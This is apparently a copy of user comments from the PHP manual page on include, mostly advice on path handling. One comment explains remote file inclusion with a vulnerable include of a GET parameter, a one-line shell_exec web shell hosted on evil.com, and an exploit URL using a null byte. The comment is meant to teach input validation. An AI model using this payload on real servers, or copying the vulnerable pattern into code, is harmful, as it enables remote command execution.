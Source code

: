 # Security warning




<div class="phpcode"><span class="html">
This might be useful:<br><span class="default">&lt;?php<br></span><span class="keyword">include </span><span class="default">$_SERVER</span><span class="keyword">[</span><span class="string">&apos;DOCUMENT_ROOT&apos;</span><span class="keyword">].</span><span class="string">&quot;/lib/sample.lib.php&quot;</span><span class="keyword">;<br></span><span class="default">?&gt;<br></span>So you can move script anywhere in web-project tree without changes.</span>
</div>
  

#


<div class="phpcode"><span class="html">
If you want to have include files, but do not want them to be accessible directly from the client side, please, please, for the love of keyboard, do not do this:<br><br><span class="default">&lt;?php<br><br></span><span class="comment"># index.php<br></span><span class="default">define</span><span class="keyword">(</span><span class="string">&apos;what&apos;</span><span class="keyword">, </span><span class="string">&apos;ever&apos;</span><span class="keyword">);<br>include </span><span class="string">&apos;includeFile.php&apos;</span><span class="keyword">;<br><br></span><span class="comment"># includeFile.php<br><br>// check if what is defined and die if not<br><br></span><span class="default">?&gt;<br></span><br>The reason you should not do this is because there is a better option available. Move the includeFile(s) out of the document root of your project. So if the document root of your project is at &quot;/usr/share/nginx/html&quot;, keep the include files in &quot;/usr/share/nginx/src&quot;.<br><br><span class="default">&lt;?php<br><br></span><span class="comment"># index.php (in document root (/usr/share/nginx/html))<br><br></span><span class="keyword">include </span><span class="default">__DIR__ </span><span class="keyword">. </span><span class="string">&apos;/../src/includeFile.php&apos;</span><span class="keyword">;<br><br></span><span class="default">?&gt;<br></span><br>Since user can&apos;t type &apos;your.site/../src/includeFile.php&apos;, your includeFile(s) would not be accessible to the user directly.</span>
</div>
  

#


<div class="phpcode"><span class="html">
Before using php&apos;s include, require, include_once or require_once statements, you should learn more about Local File Inclusion (also known as LFI) and Remote File Inclusion (also known as RFI).<br><br>As example #3 points out, it is possible to include a php file from a remote server.<br><br>The LFI and RFI vulnerabilities occur when you use an input variable in the include statement without proper input validation.&#xA0; Suppose you have an example.php with code:<br><br><span class="default">&lt;?php<br></span><span class="comment">// Bad Code<br></span><span class="default">$path </span><span class="keyword">= </span><span class="default">$_GET</span><span class="keyword">[</span><span class="string">&apos;path&apos;</span><span class="keyword">];<br>include </span><span class="default">$path </span><span class="keyword">. </span><span class="string">&apos;example-config-file.php&apos;</span><span class="keyword">;<br></span><span class="default">?&gt;<br></span><br>As a programmer, you might expect the user to browse to the path that you specify.<br><br>However, it opens up an RFI vulnerability.&#xA0; To exploit it as an attacker, I would first setup an evil text file with php code on my evil.com domain.<br><br>evil.txt<br><span class="default">&lt;?php </span><span class="keyword">echo </span><span class="default">shell_exec</span><span class="keyword">(</span><span class="default">$_GET</span><span class="keyword">[</span><span class="string">&apos;command&apos;</span><span class="keyword">]);</span><span class="default">?&gt;<br></span><br>It is a text file so it would not be processed on my server but on the target/victim server.&#xA0; I would browse to:<br>h t t p : / / w w w .example.com/example.php?command=whoami&amp; path= h t t p : / / w w w .evil.com/evil.txt%00<br><br>The example.php would download my evil.txt and process the operating system command that I passed in as the command variable.&#xA0; In this case, it is whoami.&#xA0; I ended the path variable with a %00, which is the null character.&#xA0; The original include statement in the example.php would ignore the rest of the line.&#xA0; It should tell me who the web server is running as.<br><br>Please use proper input validation if you use variables in an include statement.</span>
</div>
  

#


<div class="phpcode"><span class="html">
I cannot emphasize enough knowing the active working directory. Find it by: echo getcwd();<br>Remember that if file A includes file B, and B includes file C; the include path in B should take into account that A, not B, is the active working directory.</span>
</div>
  

#


<div class="phpcode"><span class="html">
As a rule of thumb, never include files using relative paths. To do this efficiently, you can define constants as follows:<br><br>----<br><span class="default">&lt;?php </span><span class="comment">// prepend.php - autoprepended at the top of your tree<br></span><span class="default">define</span><span class="keyword">(</span><span class="string">&apos;MAINDIR&apos;</span><span class="keyword">,</span><span class="default">dirname</span><span class="keyword">(</span><span class="default">__FILE__</span><span class="keyword">) . </span><span class="string">&apos;/&apos;</span><span class="keyword">);<br></span><span class="default">define</span><span class="keyword">(</span><span class="string">&apos;DL_DIR&apos;</span><span class="keyword">,</span><span class="default">MAINDIR </span><span class="keyword">. </span><span class="string">&apos;downloads/&apos;</span><span class="keyword">);<br></span><span class="default">define</span><span class="keyword">(</span><span class="string">&apos;LIB_DIR&apos;</span><span class="keyword">,</span><span class="default">MAINDIR </span><span class="keyword">. </span><span class="string">&apos;lib/&apos;</span><span class="keyword">);<br></span><span class="default">?&gt;<br></span>----<br><br>and so on. This way, the files in your framework will only have to issue statements such as this:<br><br><span class="default">&lt;?php<br></span><span class="keyword">require_once(</span><span class="default">LIB_DIR </span><span class="keyword">. </span><span class="string">&apos;excel_functions.php&apos;</span><span class="keyword">);<br></span><span class="default">?&gt;<br></span><br>This also frees you from having to check the include path each time you do an include.<br><br>If you&apos;re running scripts from below your main web directory, put a prepend.php file in each subdirectory:<br><br>--<br><span class="default">&lt;?php<br></span><span class="keyword">include(</span><span class="default">dirname</span><span class="keyword">(</span><span class="default">dirname</span><span class="keyword">(</span><span class="default">__FILE__</span><span class="keyword">)) . </span><span class="string">&apos;/prepend.php&apos;</span><span class="keyword">);<br></span><span class="default">?&gt;<br></span>--<br><br>This way, the prepend.php at the top always gets executed and you&apos;ll have no path handling headaches. Just remember to set the auto_prepend_file directive on your .htaccess files for each subdirectory where you have web-accessible scripts.</span>
</div>
  

#

[Official documentation page](https://www.php.net/manual/en/function.include.php)

**[To root](/README.md)**